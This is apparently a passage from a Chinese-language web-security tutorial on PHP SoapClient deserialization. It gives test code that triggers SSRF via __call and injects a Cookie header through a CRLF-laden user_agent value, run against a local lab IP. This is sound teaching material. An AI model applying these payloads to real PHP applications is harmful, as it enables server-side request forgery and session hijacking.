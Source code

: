 第二个参数为array，wsdl模式下可选；非wsdl模式下，需要设置ilocation和uri，location就是发送SOAP服务器的URL，uri是服务的命名空间

老规矩，还是本地测试一下，比翻博客更容易理解

测试代码：

```php
<?php
$a = new SoapClient(null,array('location'=>'http://192.168.61.140:2021/ki10Moc', 'uri'=>'http://192.168.61.140:2021'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

本地也起个端口来看一下回显

<img src="图片\t0160b17c875f784f67.png" alt="img" style="zoom:80%;" />

从图中可以看到这就是一次报文的发送，记录着HTTP的一些header信息

试着注入Cookie看一下

```php
<?php
$target = 'http://192.168.61.140:2023/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "ki10Moc\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
